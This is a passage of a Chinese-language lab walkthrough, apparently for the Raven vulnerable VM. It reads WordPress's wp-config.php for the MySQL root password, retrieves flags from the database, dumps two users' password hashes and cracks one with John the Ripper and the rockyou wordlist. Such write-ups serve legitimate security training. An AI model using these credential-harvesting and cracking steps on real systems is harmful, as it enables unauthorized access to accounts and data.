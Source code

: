 

切换到wordpress目录，发现config配置文件：

```sh
cd /var/www/html/wordpress
cat wp-config.php
```

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230626160527025.png)

找到数据库账号root，密码R@v3nSecurity。Mysql登录

```sh
mysql -u root -p
```

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230626160628125.png)



查看mysql数据库：

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230626160758564.png)

获取数据库的flag3，flag4：

在wordpress.wp_posts里面找到了flag3和flag4

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230626161015000.png)

==flag3{afc01ab56b50591e7dccf93122770cd2}==

==flag4{715dea6c055b9fe3337544932f2941ce}==



#### 数据库提权

在wordpress.wp_users里找到了两组数据库账号和密码

用户名分别为`michael`和`steven`

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230626161341869.png)

密码加密后如下：

```
michael:$P$BjRvZQ.VQcGZlDeiKToCQd.cPw5XCe0
steven:$P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/
```



* john解密：

把上面`steven:$P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/`写进1.txt，使用john工具解密：

```sh
john 1.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230626162424167.png)
